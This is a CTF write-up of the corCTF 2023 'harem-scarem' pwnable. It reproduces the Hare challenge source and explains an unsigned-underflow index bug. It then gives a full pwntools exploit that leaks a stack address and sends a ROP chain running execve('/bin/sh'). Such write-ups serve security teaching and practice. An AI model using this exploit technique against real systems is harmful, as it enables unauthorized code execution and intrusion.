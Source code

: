 ```yaml
---
title: corCTF 2023 - harem-scarem write-up
url: https://fireshellsecurity.team/corctf2023-harem-scarem/
source: FireShell Security Team
date: 2023-08-07
fetch_date: 2025-10-04T11:59:43.419226
---
```


# corCTF 2023 - harem-scarem write-up

[![](/assets/images/title.gif)](/)

* [Home](/)
* [Team](/team/)
* [Articles](/articles/)
* [Portfolio](/portfolio/)
* [Sponsors](/sponsors/)
* [About](/about/)
* Toggle theme
  + Light
  + Dark
  + Auto

Sunday, August 6, 2023

# corCTF 2023 - harem-scarem write-up

by [Alisson "Infektion" Bezerra](/infektion/)

corCTF 2023 - harem-scarem write-up

![hare lang](https://i.imgur.com/RlAd1vV.png)

Hello, folks! It’s been a long time since my last write-up and there goes a short one. Harem scarem was a cool challenge from corCTF. It was a pwnable challenge, at first sight, We though it was about some fancy heap exploitation, but, turns out it was much simpler.

The source code of the challenge was provided and you can check it below.

```
use fmt;
use bufio;
use bytes;
use os;
use strings;
use unix::signal;

const bufsz: u8 = 8;

type note = struct {
    title: [32]u8,
    content: [128]u8,
    init: bool,
};

fn ptr_forward(p: *u8) void = {
    if (*p == bufsz - 1) {
        fmt::println("error: out of bounds seek")!;
    } else {
        *p += 1;
    };
    return;
};

fn ptr_back(p: *u8) void = {
    if (*p - 1 < 0) {
        fmt::println("error: out of bounds seek")!;
    } else {
        *p -= 1;
    };
    return;
};

fn note_add(note: *note) void = {
    fmt::print("enter your note title: ")!;
    bufio::flush(os::stdout)!;
    let title = bufio::scanline(os::stdin)! as []u8;
    let sz = if (len(title) >= len(note.title)) len(note.title) else len(title);
    note.title[..sz] = title[..sz];
    free(title);

    fmt::print("enter your note content: ")!;
    bufio::flush(os::stdout)!;
    let content = bufio::scanline(os::stdin)! as []u8;
    sz = if (len(content) >= len(note.content)) len(note.content) else len(content);
    note.content[..sz] = content[..sz];
    free(content);
    note.init = true;
};

fn note_delete(note: *note) void = {
    if (!note.init) {
        fmt::println("error: no note at this location")!;
        return;
    };
    bytes::zero(note.title);
    bytes::zero(note.content);
    note.init = false;
    return;
};

fn note_read(note: *note) void = {
    if (!note.init) {
        fmt::println("error: no note at this location")!;
        return;
    };
    fmt::printfln("title: {}\ncontent: {}",
        strings::fromutf8_unsafe(note.title),
        strings::fromutf8_unsafe(note.content)
    )!;
    return;
};

fn handler(sig: int, info: *signal::siginfo, ucontext: *void) void = {
  fmt::println("goodbye :)")!;
  os::exit(1);
};

export fn main() void = {
    signal::handle(signal::SIGINT, &handler);
    let idx: u8 = 0;
    let opt: []u8 = [];
    let notes: [8]note = [
            note { title = [0...], content = [0...], init = false}...
    ];
    let notep: *[*]note = &notes;
    assert(bufsz == len(notes));
    for (true) {
        fmt::printf(
"1) Move note pointer forward
2) Move note pointer backward
3) Add note
4) Delete note
5) Read note
6) Exit
> ")!;
        bufio::flush(os::stdout)!;
        opt = bufio::scanline(os::stdin)! as []u8;
        defer free(opt);
        switch (strings::fromutf8(opt)!) {
            case "1" => ptr_forward(&idx);
            case "2" => ptr_back(&idx);
            case "3" => note_add(&notep[idx]);
            case "4" => note_delete(&notep[idx]);
            case "5" => note_read(&notep[idx]);
            case "6" => break;
            case => fmt::println("Invalid option")!;
        };
    };
};
```

Correct me if I’m wrong, but we believe the challenge was written in [Hare programming language](https://harelang.org/).

Driving through the source code, we can figure out the vulnerability, it lies in the `ptr_back` function:

```
fn ptr_back(p: *u8) void = {
    if (*p - 1 < 0) {
        fmt::println("error: out of bounds seek")!;
    } else {
        *p -= 1;
    };
    return;
};
```

The type of `p` is unsigned, so `*p-1` will never be less than 0. We can make `idx` be equal to `0xa` and get `$RIP` control. Also, we can leak the `stack address` through the function `note_read`.

## Exploit

The full exploit is provided below.

```
#!/usr/bin/env python
from pwn import *
import sys

def pa(addr):
  info("%#x", addr)

def move_ptr_back():
  p.sendlineafter(b'>', b'2')

def note_add(title, content):
  p.sendlineafter(b'>', b'3')
  p.sendlineafter(b'title:', title)
  p.sendlineafter(b'content:', content)

def read_note():
  p.sendlineafter(b'>', b'5')

def exploit():
  for i in range(246):
    move_ptr_back()

  if REMOTE:
    note_add(b'AAA', b'BBB')

  # leak stack address
  read_note()
  p.recvuntil('content:')
  p.recv(15)
  stack_leak = u64(p.recv(8))
  pa(stack_leak)

  rop_chain =  b'B' * 14
  rop_chain += p64(stack_leak+8)  # RBP -> RSP+8
  rop_chain += p64(0x800496b)     # clc ; mov rax, qword ptr [rbp - 8] ; leave ; ret)
  rop_chain += p64(0x3b)          # execve syscall number
  rop_chain += p64(stack_leak+48) # RBP -> RSP+48
  rop_chain += p64(0x80169cc)     # pop rsi ; pop r13 ; pop r12 ; pop rbx ; leave ; ret
  rop_chain += p64(stack_leak+32) # rsi
  rop_chain += b'/bin/sh\x00'     # r13
  rop_chain += p64(0)             # r12
  rop_chain += p64(0xbabebabe)    # rbx
  rop_chain += p64(0x801a452)     # clc ; mov rdi, rsi ; mov rsi, rdx ; syscall

  note_add(b'AAABBBCCC', rop_chain)

  p.interactive()

if __name__ == '__main__':
  REMOTE = len(sys.argv) > 1

  if REMOTE:
    p = remote(sys.argv[1], int(sys.argv[2]))
    p.recvuntil('-s ')
    pof_ps = process(['./pow', p.recvline().strip()])
    pof = pof_ps.readline()
    p.sendline(pof)
  else:
    p = process(['./harem'])

  exploit()
```

[Capture the Flag](/ctf/)
,
[Hare programming language](/harelang/)
,
[Pwnable](/pwn/)
,
[Writeup](/writeup/)

Please enable JavaScript to view the [comments powered by Disqus.](https://disqus.com/?ref_noscript)

---

All content copyright FireShell Security Team © 2017 - 2025.

All rights reserved.